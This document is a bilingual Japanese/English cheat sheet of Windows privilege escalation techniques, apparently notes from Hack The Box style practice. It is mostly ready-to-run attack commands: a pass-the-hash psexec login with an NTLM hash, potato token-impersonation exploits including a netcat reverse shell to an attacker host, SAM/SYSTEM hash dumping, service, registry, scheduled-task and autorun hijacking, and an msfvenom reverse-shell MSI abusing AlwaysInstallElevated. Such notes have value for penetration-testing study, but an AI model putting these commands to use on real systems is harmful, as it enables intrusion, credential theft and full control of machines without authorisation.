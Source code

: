 ### psexec
impacket-psexec -hashes :32693b11e6aa90eb43d32c72a07ceea6 htb/administrator@10.10.10.161 powershell.exe

### Juicy Potate
Juicy PotateはWindowsのローカル特権昇格ツールです。
https://github.com/ohpe/juicy-potato

setImpersonatePrivilegeが有効になっているため、 Juicy Potatoを使用して SYSTEM を取得できる可能性が非常に高くなります。
Juicy Potato は、Microsoft がトークンを処理する方法を悪用して、ローカル権限を SYSTEM に昇格させます。

### Automated Scripts
winpeas.exe
winpeas.bat
Jaws-enum.ps1
powerup.ps1
PrivescCheck.ps1

### Token Impersonation

Command to check whoami /priv
#PrintspooferPrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"
#RoguePotatoRoguePotato.exe -r <AttackerIP>-e "shell.exe"-l 9999
#GodPotatoGodPotato.exe -cmd "cmd /c whoami"GodPotato.exe -cmd "shell.exe"#JuicyPotatoNGJuicyPotatoNG.exe -t *-p "shell.exe"-a

#SharpEfsPotatoSharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"#writes whoami command to w.log file

### SAM and SYSTEM
次のフォルダーをチェックする
#Usually %SYSTEMROOT% = C:\Windows%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
C:\windows.old
#正規表現、最初にc:dir / s SAMに移動します
dir /s システム

	• SYSTEMおよびSAMからのハッシュの取得
impacket-secretsdump -system SYSTEM -sam SAM local
#コマンドで常にlocalに言及する
#これで、ハッシュの詳細なリストが表示されます
### Services
#### Binary Hijacking
#winpeas からサービスを識別する
icalcs "path" 
#Fは完全な権限を意味し、フォルダへのフルアクセスがあることを確認する必要がありますsc qc <servicename>
 #BinaryPath 変数の検索
sc config <service> <option>="<value>" #change the path to the reverseshell location
sc start <servicename>
---
#### Unquoted Service Path
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """  #Displays services which has missing quotes, this can slo be obtained by running WinPEAS
#書き込み可能なパスを確認する
icalcs "path"
#ペイロードを書き込み可能な場所に挿入し、どちらが機能しますか。sc start <servicename>
---
#### Insecure Service Executables
#Winpeas で、次のサービスを探します
File Permissions: Everyone [AllAccess]
#サービスフォルダ内の実行可能ファイルを置き換えて、サービスを開始しますsc start <service>
---
#### Weak Registry permissions
#Winpeas services info の出力で次の点を探します
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have ful access

accesschk /acceptula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#regeditからのサービス情報、実行可能ファイルを保持する変数を識別しますreg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#ここでは Imagepath が変数です
net start <service>


### Schedules Tasks
schtasks /query /fo LIST /v 
#スケジュールされたタスクのリストを表示し、関心のあるタスクをピックアップします
#権限チェック - 書き込み可能とは、悪用可能であることを意味します。
icalcs "path"
#スケジュールされたタスクが実行されるまで待つと、シェルが表示されます
### DLL Hijacking
### Autorun
#確認のために、ファイルの場所を含むいくつかの情報が表示されます
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

#場所が書き込み可能であることを確認する
accesschk.exe \accepteula -wvu "<path>" #returns FILE_ALL_ACCESS

#実行可能ファイルをリバースシェルに置き換えると、管理者ログインまで待つ必要があり、シェルが作成されます


### AlwaysInstallElevated
#チェックのために、1またはOx1を返す必要があります
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#msi 形式でのリバースシェルの作成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi > reverse.msi

#シェルの実行と取得
msiexec /quiet /qn /i reverse.msi

### Startup Apps
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
#スタートアップ アプリケーションについては、こちらを参照してください。
#書き込み可能な権限と転送を確認する
#ここでの唯一の落とし穴は、システムを再起動する必要があることです

### Insecure GUI apps
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 



